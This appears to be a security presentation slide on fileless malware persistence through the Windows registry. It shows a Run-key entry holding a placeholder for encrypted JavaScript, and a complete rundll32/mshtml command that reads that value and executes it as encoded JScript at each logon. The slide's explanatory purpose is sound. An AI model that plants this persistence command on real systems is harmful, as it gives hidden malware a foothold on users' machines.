

# Fileless Persistence : Windows Registry
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"(default)" = "[ENCRYPTED JAVASCRIPT]"
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"[NON-ASCII STRING]" = "rundll32.exe javascript:\"\..\mshtml,RunHTMLApplication \";document.write(\"\74script language=jscript.encode>\"+(new%20ActiveXObject(\"WScript.Shell\")).RegRead(\"HKCU\\software\\microsoft\\windows\\currentversion\\run\\\")+\"\74/script>\")"